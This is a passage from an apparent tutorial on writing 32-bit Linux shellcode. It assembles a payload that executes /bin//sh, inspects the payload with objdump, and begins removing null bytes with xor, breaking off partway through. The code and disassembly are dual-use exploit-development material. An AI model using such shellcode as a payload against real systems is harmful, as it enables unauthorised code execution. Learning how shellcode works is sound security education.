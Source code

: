 And we have it! Let's try this now:

```asm
$ nasm -f elf shellcode.asm && ld -o shellcode shellcode.o
$ ./shellcode
$ exit
$
```

# Shellcode cleanup

Nice! Let's have a look at our shellcode with `objdump`:

```shell
shellcode:     file format elf32-i386

Contents of section .text:
 8048060 6a00682f 2f736868 2f62696e 89e06a00  j.h//shh/bin..j.
 8048070 89c3b900 000000b8 0b000000 cd80      ..............
```

That's quite nice, but there are a few `00` here, let's have a closer look:

```shell
$ objdump -d shellcode

shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       6a 00                   push   $0x0
 8048062:       68 2f 2f 73 68          push   $0x68732f2f
 8048067:       68 2f 62 69 6e          push   $0x6e69622f
 804806c:       89 e0                   mov    %esp,%eax
 804806e:       6a 00                   push   $0x0
 8048070:       89 c3                   mov    %eax,%ebx
 8048072:       b9 00 00 00 00          mov    $0x0,%ecx
 8048077:       b8 0b 00 00 00          mov    $0xb,%eax
 804807c:       cd 80                   int    $0x80
```

So we have twice a problem with `push 0x0`, and once with `mov 0xb, eax`.

## Push

We can't have any `0` displayed in the `asm` code, but we have a few cards in our hand. Using a register, and making sure it's empty, we can then push its value onto the stack. One of the simplest way is to use the `xor` command like so:

```asm
xor eax, eax
```

